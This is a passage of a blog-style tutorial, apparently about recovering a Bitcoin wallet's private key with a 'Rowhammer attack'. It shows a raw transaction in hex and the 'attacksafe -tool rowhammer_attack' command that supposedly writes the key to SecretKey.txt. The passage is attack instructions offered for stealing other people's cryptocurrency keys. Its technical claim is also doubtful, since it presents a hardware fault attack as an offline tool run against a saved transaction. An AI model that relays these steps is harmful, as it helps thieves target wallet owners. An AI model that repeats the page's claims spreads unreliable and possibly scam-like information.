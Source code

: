 

<p>then choose<code>&nbsp;-tool: rowhammer_attack</code></p>



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool rowhammer_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-125-1024x275.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1200"></figure>



<p>We launched this attack from&nbsp;<code>-tool rowhammer_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>


